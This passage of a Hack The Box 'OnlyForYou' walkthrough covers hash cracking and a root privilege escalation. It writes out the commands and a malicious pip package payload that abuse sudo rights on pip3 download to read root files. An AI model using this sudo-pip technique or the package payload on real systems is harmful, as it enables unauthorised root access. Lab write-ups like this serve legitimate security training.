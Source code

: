 ```
10.10.11.210 - - [28/Apr/2023 13:36:13] "GET /?username=john HTTP/1.1" 200 -
```

And cracking those with john (after specifying that they were Raw-SHA256 hashes):

![htb_onlyforyou_hashes](https://guffre.github.io/assets/images/htb_onlyforyou_hashes.jpg)

## User Access and Root Priv-esc

Now that we have user access, one of the first things I check is sudo privileges:

```
john@only4you:~$ sudo -l
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```

Testing our access against the 127.0.0.1 service, we find that there is a repository with a .tar.gz already inside it!

![htb_onlyforyou_repo](https://guffre.github.io/assets/images/htb_onlyforyou_repo.png)

Downloading and taking a look at this `x.tar.gz` it is apparent that it is a pip exploit: [GitHub - wunderwuzzi23/this_is_fine_wuzzi: Demo of a malicious python package that will run code upon pip download or install](https://github.com/wunderwuzzi23/this_is_fine_wuzzi)

I am not sure if this was put by a person, but I will take that .tar.gz and use it to read the root flag. I just need to set up a public git repo, and then use `sudo pip3` to download it.

First, I created the repo in the GUI. Then in the command line I used the following commands:

```
git init
git add .
git commit -m "x"
git remote add origin http://127.0.0.1:3000/john/tmp.git
git push -u origin master

sudo /usr/bin/pip3 download http://127.0.0.1:3000/john/tmp/raw/master/sh.tar.gz
```

My wuzzi payload was as follows:

```
def RunCommand():
    print(os.system('ls -al /root/*'))
    os.system("cat /root/*txt > /var/tmp/f")
```

I did not see the `print()` output, but I did get the `f` file created with the root flag!
